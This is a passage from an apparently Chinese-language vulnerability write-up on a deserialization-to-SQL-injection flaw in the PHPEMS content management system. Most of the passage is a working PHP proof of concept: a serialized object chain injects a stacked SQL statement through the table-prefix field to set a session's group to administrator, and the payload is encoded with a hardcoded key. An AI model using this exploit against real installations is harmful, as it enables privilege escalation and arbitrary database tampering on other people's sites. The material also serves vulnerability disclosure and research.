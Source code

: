 ```php
        // var_dump(array('sql' => $sql, 'v' => $v));
        return array('sql' => $sql, 'v' => $v);
    }
```

这里可以看到在该查询中有个tablepre的变量在反序列化中是可控的。并且在pdo预编译中，是无法对于表名进行预编译的，从而导致这里存在对该cms用到的任意表的任意数据进行修改。这里我们将需要修改数据的sql语句放入tablepre变量中，并注释掉后续的语句。同时这里pdo的用法是可以进行堆叠查询的，所以可以执行任意的sql语句。

反序列化的POC如下所示：

```php
<?php
namespace PHPEMS;

class session
{
    public $sessionid='1111111';
    public function __construct()
    {
        $this->pdosql = new pdosql;
        $this->db = new pepdo();
    }
}
class pdosql
{
    private $db;
    public function __construct()
    {
        $this->tablepre=' x2_session set sessiongroupid=\'1\' where sessionid=\'96a0e7fc80194815f509d8ef101f2ab8\' -- ';
        $this->db =new pepdo();
    }
}
class pepdo{
    private $linkid = 0;
    private $log = 1;       //开启日志，位置data/error.log
    public function __construct()
    {
        $this->linkid=0;

    }
}
function encode($info,$key=null)
{

    $info = serialize($info);
    // if(!$key)
    // $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])+ord($key[$p]));
    }
    return urlencode($info);
}
$key= '4b394f264dfcdc724a06b9b05c1e59ed';
echo urlencode(encode(array('sessionid'=>'312312312',new session()),$key));
```
